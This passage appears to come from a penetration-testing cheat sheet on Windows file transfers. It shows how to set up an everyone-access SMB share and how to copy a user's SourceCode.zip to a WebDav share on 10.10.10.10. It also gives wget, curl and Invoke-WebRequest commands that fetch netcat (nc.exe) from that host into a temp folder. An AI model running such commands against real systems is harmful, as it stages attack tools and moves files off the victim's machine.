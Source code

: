## Windows

### Servers

{% tabs %}
{% tab title="SMB" %}
Create an SMB share:

```powershell
# Create a new share
> New-SmbShare -Name "shared" -Path "C:\Users\x7331" -FullAccess "Everyone"

Name   ScopeName Path            Description
----   --------- ----            -----------
shared *         C:\Users\x7331

# Confirm the share is up
> Get-SmbShare

Name   ScopeName Path            Description
----   --------- ----            -----------
ADMIN$ *         C:\Windows      Remote Admin
C$     *         C:\             Default share
IPC$   *                         Remote IPC
shared *         C:\Users\x7331
```

Access it from the target via File Explorer at `\\10.10.10.10\shared`.
{% endtab %}

{% tab title="WebDav (SMB over HTTP)" %}
```powershell
# to a Linux WebDav server
copy C:\Users\john\Desktop\SourceCode.zip \\10.10.10.10\DavWWWRoot\
```
{% endtab %}
{% endtabs %}

### Downloads

{% tabs %}
{% tab title="wget" %}
```powershell
wget http://10.10.10.10/nc.exe -O c:\windows\temp\nc.exe
```
{% endtab %}

{% tab title="cURL" %}
```powershell
curl http://10.10.10.10/nc.exe -o nc.exe
```
{% endtab %}

{% tab title="IWR" %}
```powershell
Invoke-WebRequest https://10.10.10.10/nc.exe -OutFile c:\windows\temp\nc.exe
```
{% endtab %}
